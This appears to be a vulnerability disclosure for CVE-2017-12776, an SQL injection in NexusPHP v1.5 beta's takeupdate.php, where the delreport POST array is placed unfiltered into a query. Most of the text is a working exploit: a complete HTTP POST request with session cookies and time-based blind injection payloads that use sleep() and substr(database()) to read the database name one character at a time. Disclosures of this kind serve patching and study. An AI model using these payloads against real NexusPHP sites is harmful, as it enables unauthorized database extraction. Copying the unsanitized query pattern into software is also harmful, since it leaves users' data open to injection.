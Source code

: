 ## nexusphp  takeupdate.php sqli
### CVE-2017-12776
### powered by lijiangtao  from Anyuntec
### version: v1.5.beta5.20120707
### Download link:https://sourceforge.net/projects/nexusphp/
##  Vulnerability details
#### /nexusphp.v1.5.beta5.20120707/takeupdate.php   Line 14

```
if ($_POST['setdealt']){
$res = sql_query ("SELECT id FROM reports WHERE dealtwith=0 AND id IN (" . implode(", ", $_POST[delreport]) . ")");qlerr(__FILE__, __LINE__);
$user = mysql_fetch_array($r);
```

$_POST[delreport]    has not been filtered to cause injection

###  EXP：

```
POST /takeupdate.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 88
Cookie: c_secure_uid=MQ%3D%3D; c_secure_pass=e52e548e638c2515f3f4c4ff1cee02ab; c_secure_ssl=bm9wZQ%3D%3D; c_secure_tracker_ssl=bm9wZQ%3D%3D; c_secure_login=bm9wZQ%3D%3D
X-Forwarded-For: 10.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1

setdealt=111&delreport[0]=11) or sleep( if(ascii(substr(database(),1,1))<110,0,5 )) %23 
```

delreport[0]=11) or sleep( if(ascii(substr(database(),1,1))<110,0,5 )) %23 

The page will be delayed for 5 seconds  

delreport[0]=11) or sleep( if(ascii(substr(database(),1,1))=110,0,5 )) %23 

The page will be delayed for 0 seconds  








